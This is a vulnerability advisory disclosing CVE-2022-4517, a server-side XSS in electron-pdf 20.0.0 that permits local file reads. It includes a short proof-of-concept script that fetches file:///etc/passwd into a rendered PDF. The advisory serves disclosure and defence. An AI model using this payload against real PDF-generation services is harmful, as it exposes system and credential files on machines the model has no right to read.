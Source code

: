 ```yaml
---
slug: advisories/drake/
title: electron-pdf 20.0.0 - Local File Read via Server Side XSS
authors: Carlos Bello
writer: cbello
codename: drake
product: electron-pdf 20.0.0 - Local File Read
date: 2022-12-15 12:00 COT
cveid: CVE-2022-4517
severity: 7.5
description: electron-pdf 20.0.0 - Local File Read via Server Side XSS
keywords: Fluid Attacks, Security, Vulnerabilities, Electron PDF, LFR
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | electron-pdf 20.0.0 - Local File Read                              |
| **Code name**         | [Drake](https://en.wikipedia.org/wiki/Drake_(musician))            |
| **Product**           | electron-pdf                                                       |
| **Affected versions** | Version 20.0.0                                                     |
| **State**             | Public                                                             |
| **Release date**      | 2022-12-15                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Server Side XSS                                                                                                             |
| **Rule**              | [425. Server Side XSS](https://docs.fluidattacks.com/criteria/vulnerabilities/425)                                          |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N                                                                                |
| **CVSSv3 Base Score** | 7.5                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-4517](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-4517)                                               |

## Description

electron-pdf version 20.0.0 allows an external attacker to remotely obtain
arbitrary local files. This is possible because the application does not
validate the HTML content entered by the user.

## Vulnerability

This vulnerability occurs because the application does not validate that
the HTML content entered by the user is not malicious.

## Exploitation

To exploit this vulnerability, we only need to send the following malicious
HTML to electron-pdf:

### Exploit.html

```html
<script>
    x=new XMLHttpRequest;
    x.onload=function(){document.write(this.responseText)};
    x.open("GET","file:///etc/passwd");x.send();
</script>
```

Thus, when electron-pdf parses the malicious HTML, it will return the local file
specified in the generated PDF.

## Evidence of exploitation

![LFR-Node-PDF](https://user-images.githubusercontent.com/51862990/207912096-94ba071e-3665-4260-bbd6-5a0a1e785277.gif)

![LFR-Node-PDF](https://user-images.githubusercontent.com/51862990/207912149-6c577b56-2952-4405-91a5-1c7ab8f82456.png)

## Our security policy

We have reserved the ID CVE-2022-4517 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: electron-pdf 20.0.0

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://www.npmjs.com/package/electron-pdf/>

## Timeline

<time-lapse
  discovered="2022-12-15"
  contacted="2022-12-15"
  replied="2022-12-15"
  confirmed=""
  patched=""
  disclosure="">
</time-lapse>
